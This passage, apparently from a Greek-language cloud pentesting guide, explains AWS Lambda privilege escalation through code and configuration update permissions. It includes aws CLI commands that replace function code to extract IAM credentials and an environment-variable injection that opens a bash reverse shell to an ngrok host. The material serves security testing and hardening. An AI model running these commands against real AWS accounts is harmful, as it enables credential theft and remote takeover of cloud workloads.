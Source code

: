 **Πιθανή Επίπτωση:** Πιθανή πρόσβαση σε ευαίσθητες πληροφορίες.

### `lambda:UpdateFunctionCode`

Οι χρήστες που διαθέτουν την άδεια **`lambda:UpdateFunctionCode`** έχουν τη δυνατότητα να **τροποποιήσουν τον κώδικα μιας υπάρχουσας λειτουργίας Lambda που συνδέεται με έναν ρόλο IAM.**\
Ο επιτιθέμενος μπορεί **να τροποποιήσει τον κώδικα της λειτουργίας Lambda για να εξαγάγει τα διαπιστευτήρια IAM**.

Παρόλο που ο επιτιθέμενος ενδέχεται να μην έχει την άμεση δυνατότητα να εκτελέσει τη λειτουργία, εάν η λειτουργία Lambda είναι προϋπάρχουσα και λειτουργική, είναι πιθανό να ενεργοποιηθεί μέσω υπαρχόντων ροών εργασίας ή συμβάντων, διευκολύνοντας έτσι έμμεσα την εκτέλεση του τροποποιημένου κώδικα.

{% code overflow="wrap" %}
```bash
# Thezip should contain the lambda code (trick: DOwnload the current one and add your code there)
aws lambda update-function-code --function-name target_function \
--zip-file fileb:///my/lambda/code/zipped.zip

# If you have invoke permissions:
aws lambda invoke --function-name my_function output.txt

# If not check if it's exposed in any URL or via an API gateway you could access
```
{% endcode %}

**Πιθανή Επίπτωση:** Άμεση αύξηση προνομιακών δικαιωμάτων στον λογαριασμό υπηρεσίας lambda που χρησιμοποιείται.

### `lambda:UpdateFunctionConfiguration`

#### RCE μέσω μεταβλητών περιβάλλοντος

Με αυτές τις άδειες, είναι δυνατή η προσθήκη μεταβλητών περιβάλλοντος που θα προκαλέσουν την εκτέλεση αυθαίρετου κώδικα από το Lambda. Για παράδειγμα, σε python είναι δυνατό να καταχωρηθούν μεταβλητές περιβάλλοντος `PYTHONWARNING` και `BROWSER` για να εκτελεστούν αυθαίρετες εντολές από ένα διεργασία python:
```bash
aws --profile none-priv lambda update-function-configuration --function-name <func-name> --environment "Variables={PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=\"/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18755 0>&1' & #%s\"}"
```
{% endcode %}

Για άλλες γλώσσες σεναρίων υπάρχουν άλλες μεταβλητές περιβάλλοντος που μπορείτε να χρησιμοποιήσετε. Για περισσότερες πληροφορίες ελέγξτε τις υποενότητες των γλωσσών σεναρίων στο:

{% embed url="https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse" %}

#### RCE μέσω Lambda Layers

[**Τα Lambda Layers**](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html) επιτρέπουν την συμπερίληψη **κώδικα** στη λειτουργία σας λάμδα αλλά **αποθηκεύοντάς τον ξεχωριστά**, έτσι ο κώδικας της λειτουργίας μπορεί να παραμείνει μικρός και **πολλές λειτουργίες μπορούν να μοιραστούν κώδικα**.
